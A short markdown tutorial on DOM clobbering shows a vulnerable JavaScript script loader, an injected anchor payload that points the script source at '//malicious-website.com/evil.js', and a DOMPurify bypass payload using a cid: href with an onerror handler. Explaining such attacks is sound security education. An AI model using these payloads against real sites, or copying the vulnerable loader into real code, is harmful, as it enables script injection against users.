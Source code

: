 # DOM Clobbering

## Overview

DOM clobbering is a technique used to manipulate the Document Object Model (DOM) of a webpage through injected HTML. 
This can alter the behavior of JavaScript running on the page. 
DOM clobbering is particularly useful in environments where Cross-Site Scripting (XSS) attacks are not feasible but the attacker can still control some HTML content, 
especially when `id` or `name` attributes are not properly sanitized by HTML filters.

## Example of Vulnerable JavaScript Code

Consider the following JavaScript code that dynamically loads a script based on a URL stored in an object:

```
<script>
    window.onload = function() {
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
## HTML Injection for DOM Clobbering

An attacker can inject HTML to overwrite the someObject with an anchor element, exploiting the fact that the same id can be used more than once:
```
<a id="someObject"></a>
<a id="someObject" name="url" href="//malicious-website.com/evil.js"></a>
```
In this scenario, using the same ID twice causes the DOM to treat these anchors as a collection under someObject.
The name attribute in the second anchor (url) effectively overwrites the property of someObject that the JavaScript intends to use for a script source, redirecting it to a malicious script.

# DOMPurify Bypass

DOMPurify allows the cid: protocol, which does not URL-encode double quotes. This can be exploited to inject malicious payloads:
```
<a id="yourID" name="yourName" href='cid:"onerror=alert(1)//'></a>
```
In this example, an encoded double quote is injected and decoded at runtime, potentially leading to script execution when processed by the browser.
